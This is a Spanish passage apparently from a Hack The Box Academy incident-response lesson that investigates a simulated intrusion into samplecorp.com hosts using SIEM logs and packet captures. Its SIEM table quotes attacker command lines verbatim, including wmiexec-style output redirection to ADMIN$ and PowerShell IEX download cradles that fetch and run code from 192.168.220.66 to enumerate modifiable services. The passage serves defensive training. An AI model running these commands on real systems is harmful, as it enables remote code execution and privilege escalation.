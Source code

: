 Además,`cmd.exe`y`powershell.exe`fueron generados de`wmiprvse.exe`.

![](https://academy.hackthebox.com/storage/modules/238/3_.png)

![](https://academy.hackthebox.com/storage/modules/238/4.png)

Como ya se mencionó, la entidad no autorizada luego ejecutó comandos específicos de PowerShell.

![](https://academy.hackthebox.com/storage/modules/238/5.png)

**Breve análisis de 192.168.220.66**

Desde los registros, identificamos cuatro hosts en el segmento de red con las direcciones IP y los nombres de host correspondientes. El anfitrión`192.168.220.66`, previamente observado en los registros de`WKST01.samplecorp.com`, confirma la presencia de una entidad no autorizada en la red interna.

| **IP** | **Nombre de host** |
| --- | --- |
| 192.168.220.20 | Dc01.samplecorp.com |
| 192.168.220.200 | Wkst01.samplecorp.com |
| 192.168.220.101 | Hr01.samplecorp.com |
| 192.168.220.202 | Eng01.samplecorp.com |

La siguiente tabla es el resultado de una consulta SIEM que tenía como objetivo identificar todas las instancias de ejecución de comandos iniciadas desde`192.168.220.66`, basado en datos de`WKST01.samplecorp.com`.

| **event_data.commandline.keyword: descendente** | **beat.hostname.keyword: descendente** | **Contar** |
| --- | --- | --- |
| `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 5 |
| `cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 4 |
| `powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX` | WKST01 | 2 |
| `whoami` | WKST01 | 1 |
| `...` | ... | ... |
| `powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m` | HR01 | 1 |

Los resultados sugieren que la entidad no autorizada se ha infiltrado con éxito a los hosts:`WKST01.samplecorp.com`y`HR01.samplecorp.com`.

**Hr01.samplecorp.com**

`HR01.samplecorp.com`fue investigado a continuación, como la entidad no autorizada,`192.168.220.66`, se demostró que establece una conexión con`HR01.samplecorp.com`en el momento más temprano posible en la captura de paquetes.

![](https://academy.hackthebox.com/storage/modules/238/6.png)

Los detalles del tráfico de red sugieren un intento de desbordamiento de búfer en el servicio que se ejecuta en el puerto`31337`de`HR01.samplecorp.com`.
